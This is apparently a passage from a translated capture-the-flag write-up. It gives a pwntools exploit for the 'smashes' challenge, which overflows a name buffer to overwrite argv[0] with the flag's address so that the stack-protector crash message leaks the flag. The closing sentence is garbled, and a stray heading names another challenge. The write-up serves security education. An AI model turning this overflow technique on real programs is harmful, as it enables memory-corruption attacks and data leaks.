 

#### Using the program


We construct the application as follows


```python

from pwn import *

context.log_level = 'debug'

smash = ELF('./smashes')

if args['REMOTE']:

    sh = remote('pwn.jarvisoj.com', 9877)

else:

    sh = process('./smashes')

argv_addr = 0x00007fffffffdc58

name_addr = 0x7fffffffda40

flag_addr = 0x600D20

another_flag_addr = 0x400d20

payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)

sh.recvuntil('name? ')

sh.sendline(payload)

sh.recvuntil('flag: ')

sh.sendline ( &#39;bb&#39;)
data = sh.recv()

sh.interactive()

```



Here we get the flag directly, there is no online saying that the flag is not available.


### Title
- 2018 Net Ding Cup - guess

